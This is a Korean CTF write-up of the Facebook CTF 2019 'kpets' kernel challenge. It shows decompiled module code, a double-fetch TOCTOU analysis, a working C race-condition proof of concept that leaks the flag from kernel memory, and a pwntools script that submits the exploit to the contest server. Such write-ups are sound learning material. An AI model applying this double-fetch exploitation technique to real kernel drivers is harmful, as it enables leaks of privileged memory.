 ```yaml
---
title: Facebook CTF 2019 - kpets
date: 2019-06-05 15:00:53
categories:
- Kernel Exploit
- CTF write up
tags:
- Race condition
- TOCTOU
---
```


# Facebook CTF 2019 - kpets

```sh
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
  
kpets: loading out-of-tree module taints kernel.
kpets: initializing stuff
kpets: welcome to Kernel Pets Simulator!                                              
```



```c
  copy_from_user(&nlen, &in->nlen, 4LL);
  if ( nlen > 0x20 )
  {
    printk("kpets: invalid pet name len: 0x%02x\n");
    return v11;
  }
```

write 함수를 보면 20번째 줄 쯤에 name length를 받아오는데 이게 0x20보다 크면 return 시킨다.



```c
...
    copy_from_user(&idx, nnlen, 4LL);
 ...
```

근데 77번째 줄에서 또 name length를 받아온다. ??????? 여기서 toctou가 발생한다.



```c
    do
    {
      --max;
      v9 = (v9 - 108);
      if ( max == -1 )
      {
        for ( i = first_slot->name; ; t = i[-1].t )
        {
          if ( t )
          {
            printk("Next pet\n");
            type = i[-1].t;
            switch ( type )
            {
              case 0xC1:
                printk("Type: cat\n");
                break;
              case 0xC2:
                printk("Type: sheep\n");
                break;
              case 0xC0:
                printk("Type: dog\n");
                break;
              default:
                printk("Type: unknown\n");
                break;
            }
            printk("Name: %s\n");
            printk("Description: %s\n");
          }
          --v4;
          --i;
          if ( v4 == -1 )
            break;
        }
        return 0LL;
      }
    }
    while ( v9->type != 0xAAu );
```

또 read함수에서 type 이 0xaa 가 아니면 printk로 pet의 정보를 출력해주는데 문제는 return 을 한다.



```c
  if ( a3 <= 41 )
  {
    if ( copy_to_user(v7, flag) )
    {
      result = -14LL;
    }
    else
    {
      *v6 += v17;
      result = v17;
    }
  }
```

return 밑에 flag 받아오는 코드가 있기 때문에 출력하는 구문으로 가면 안된다.



```c
  if ( (v12 + 0x40) > 1u && v12 != 0xC2u )
  {
    printk("kpets: invalid pet type: 0x%02hhx\n");
  }
```

근데 write 함수에서 type이 0xc2가 아니면 유효한 type이 아니라면서 저장을 안해준다. 로직이 너무 이상하다ㅠ

race condition으로 name length를 크게 만들어 다음 type을 0xaa로 만든 뒤 flag를 가져오도록 코드를 짜면된다.



## poc.c

```c
// gcc -o poc poc.c -static -pthread
#include <stdio.h>
#include <stdlib.h>
#include <fcntl.h>
#include <unistd.h>
#include <string.h>
#include <pthread.h>

typedef struct pet{

	char type;
	int nlen;
	char name[0x20];
	int dlen;
	char desc[0x40];
	char fake;

} Pet;

int fd;
Pet pet1;
pthread_t race;

void race_con(){
    
	while(1){
		pet1.nlen = 0x80;		
	}
    
}

int main(){

	char flag[0x100];
	int i = 0;

	memset(&flag,0,0x100);

	pet1.type = 0xc2;
	pet1.nlen = 0x20;
	memset(&pet1.name,0x77,0x20);
	pet1.dlen = 0x40;
	memset(&pet1.desc,0x61,0x40);
	pet1.fake = 0xaa;

	fd = open("/dev/kpets",O_RDWR);

	pthread_create(&race,0,&race_con,0);

	while(i<100){
        
		i++;
		pet1.nlen = 0x20;
		write(fd, &pet1, 0x70);
		read(fd, &flag, 0x100);
		printf("try %d:: %s\n",i,flag);
	
	}

}

```



## pow.py

```python
from pwn import *
import md5

w = remote("134.209.40.42",1337)

alpha = string.lowercase + string.uppercase + string.digits
url = "my_file_url"

def rand_string(length):
    return ''.join([random.choice(alpha) for _ in range(length)])

def solve(p):
    while True:
        att = rand_string(5)
        md = md5.new(att).digest()
        if p == md[:3]:
            print('Solution: {}'.format(att))
            return att

w.recvline()
w.recvuntil("== ")
poww = w.recv(3)

w.sendline(solve(poww))
w.sendline("Y")
w.sendline(url)
w.sendline("/bin/exploit")
w.interactive()

```


```sh
/ # ./init 
 __  __     ______   ______     ______   ______    
/\ \/ /    /\  == \ /\  ___\   /\__  _\ /\  ___\   
\ \  _"-.  \ \  _-/ \ \  __\   \/_/\ \/ \ \___  \  
 \ \_\ \_\  \ \_\    \ \_____\    \ \_\  \/\_____\ 
  \/_/\/_/   \/_/     \/_____/     \/_/   \/_____/ 
                                                   
/ $ ./poc
leak 1:: 
leak 2:: fb{***********************************}

leak 3:: fb{***********************************}
...
```

대회 끝나고 푼거라 init 직접 실행시켜줘야 한다..ㅎㅎ 서버에서 실행하려면 pow.py 실행하면 된다.

poc 코드를 실행시키면 예쁘게 flag가 나온다.



대회 중에 푼 asciishop, babylist, otpserver, overfloat, r4nk 문제 exploit 코드는 <https://github.com/wally0813/write-up/tree/master/ctf/2019/facebook> 에 올려 놨다.

